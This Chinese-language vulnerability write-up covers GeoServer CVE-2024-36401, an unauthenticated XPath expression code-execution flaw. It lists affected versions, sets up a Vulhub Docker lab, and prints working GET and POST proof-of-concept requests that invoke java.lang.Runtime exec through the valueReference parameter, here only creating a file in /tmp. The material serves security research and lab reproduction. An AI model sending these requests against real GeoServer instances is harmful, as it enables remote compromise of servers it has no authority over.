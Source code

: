 # GeoServer 属性名表达式前台代码执行漏洞 CVE-2024-36401

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在 GeoServer 2.25.1， 2.24.3， 2.23.5 版本及以前，未登录的任意用户可以通过构造恶意 OGC 请求，在默认安装的服务器中执行 XPath 表达式，进而利用执行 Apache Commons Jxpath 提供的功能执行任意代码。

参考链接：

- https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv
- https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w
- https://tttang.com/archive/1771/
- https://github.com/Warxim/CVE-2022-41852

## 漏洞影响

```
GeoServer ≤ 2.23.5
2.24.0 <= GeoServer ≤ 2.24.3
2.25.0 <= GeoServer ≤ 2.25.1
```

## 环境搭建

Vulhub 执行如下命令启动一个 GeoServer 2.23.2 服务器：

```
docker compose up -d
```

服务启动后，你可以在 `http://your-ip:8080/geoserver` 查看到 GeoServer 的默认页面。

![](images/GeoServer%20属性名表达式前台代码执行漏洞%20CVE-2024-36401/image-20240704162257994.png)

## 漏洞复现

在官方 [漏洞通告](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv) 中提到可以找到漏洞相关的 WFS 方法：

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.
> 未提供公开 PoC，但已确认可通过 WFS GetFeature、WFS GetPropertyValue、WMS GetMap、WMS GetFeatureInfo、WMS GetLegendGraphic 和 WPS Execute 利用此漏洞。

Vulhub 使用 `GetPropertyValue` 来执行 xpath 表达式，参考 [官方文档](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst) 构造两个 POC。基于 GET 方法的 POC：

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/awesome_poc1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![](images/GeoServer%20属性名表达式前台代码执行漏洞%20CVE-2024-36401/image-20240704162941141.png)

基于 POST 方法的 POC：

```
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/awesome_poc2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

![](images/GeoServer%20属性名表达式前台代码执行漏洞%20CVE-2024-36401/image-20240704163007780.png)

均触发 `java.lang.ClassCastException` 类型转换异常，命令执行成功。

进入容器验证 `touch /tmp/awesome_poc1` 和 `touch /tmp/awesome_poc2` 执行结果：

![](images/GeoServer%20属性名表达式前台代码执行漏洞%20CVE-2024-36401/image-20240704163120678.png)

Payload 中的 typeNames 必须存在，例如：

```
<wfs:Query typeNames='sf:archsites'/>
```

可以在 Web 页面中找到当前服务器中的所有 Types：

```
http://your-ip:8080/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage?2&filter=false
```

![](images/GeoServer%20属性名表达式前台代码执行漏洞%20CVE-2024-36401/image-20240704163921580.png)
